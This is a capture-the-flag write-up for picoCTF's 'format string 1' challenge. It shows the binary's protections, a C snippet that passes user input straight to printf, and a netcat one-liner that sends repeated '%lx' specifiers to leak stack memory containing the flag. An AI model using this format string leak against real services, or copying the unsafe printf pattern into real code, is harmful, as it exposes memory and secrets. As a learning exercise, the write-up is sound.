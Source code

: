## format string 1 (100 points)

> Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!
>
> Author: syreal

Firstly, we want to note that the binary used is a 64-bit binary. We will know this after using `checksec`.

```text
  Arch:     amd64-64-little
  RELRO:    Partial RELRO
  Stack:    No canary found
  NX:       NX enabled
  PIE:      No PIE (0x400000)

```

As the name suggests, a format string attack is involved here. If we look at the source code, we can see that this is possible, as `printf()` is being used to **print our input directly**, without any additional formatting.

```c
  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
```

This challenge is rather simple to solve. We just need to print values off the stack.

For a 32-bit executable, we can simply use `%x` as a format specifier. However, in this case, as this is a 64-bit binary, we need to use `%lx` instead, in order to retrieve the entire words stored on the stack (instead of half-words).

```bash
$ python3 -c 'print(32*"%lx")' | nc mimas.picoctf.net 51760
Give me your order and I'll read it back to you:
Here's your order: 402118071c44b64ea000901880a3478347ffef101854071c44b43fe6071c44b6644d017ffef1018610007b4654436f636970355f31346d316e343478345f3331793731655f673431665f7d383130386531771c44b6668d82300000007206e693374307250a336c797453971c44b677de971c44b44809871c44b6644d007ffef10186206c25786c25786c2525786c25786c2578786c25786c25786c
Bye!
```

Plug these hex values into CyberChef, and we should see some values that resemble a flag.
